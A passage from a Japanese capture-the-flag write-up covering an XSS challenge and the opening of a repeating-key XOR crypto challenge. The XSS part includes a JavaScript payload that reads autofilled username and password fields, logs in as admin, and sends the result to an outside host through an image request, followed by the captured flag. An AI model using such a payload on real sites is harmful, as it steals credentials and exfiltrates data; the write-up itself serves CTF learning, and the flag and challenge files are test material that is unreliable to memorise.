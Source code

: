 もう一度 URL を送信するとまた別のパスワードが飛んできました。URL の送信ごとにパスワードをリセットしているのでしょうか。

パスワードの抽出だけでなく、admin にログインとフラグの送信までさせるように変えてみましょう。

```javascript
var username = document.getElementById('sfrusername').value;
var password = document.getElementById('sfrpassword').value;
var formData = new FormData();
formData.append('username', username);
formData.append('password', password);
if (password.length == 16) {
  fetch('/login', {
    method: 'POST',
    body: formData
  }).then(resp => resp.text()).then(resp => {
    (new Image).src='http://(省略)?' + resp;
  });
}
```

admin にこの JavaScript コードを実行させると、フラグを手に入れることができました。

```
hexCTF{pa55w0rd_m4nag3rs_c4n_hav3_vuln3rabilit1es_t00}
```

## [Crypto 136] X0R (99 solves)
> XOR is best method for OTPs, especially for flags.
> 
> Author: Yarin
> 
> 添付ファイル: x0r.zip

`x0r.zip` を展開すると `enc.py` と `flag.enc` という 2 つのファイルが出てきました。`flag.enc` は `enc.py` の出力結果でしょう。`enc.py` は以下のような内容でした。

```python
from random import choice, randint
from string import ascii_letters
from itertools import cycle

key = ''.join([choice(ascii_letters) for i in range(randint(8, 16))])

with open("flag.txt", "r") as file:
    flag = file.read()

key_gen = cycle(key)
data = []
for i in range(len(flag)):
    data.append(chr(ord(flag[i]) ^ ord(next(key_gen))))

with open("flag.enc", "w+") as file:
    file.write(''.join(data))
```
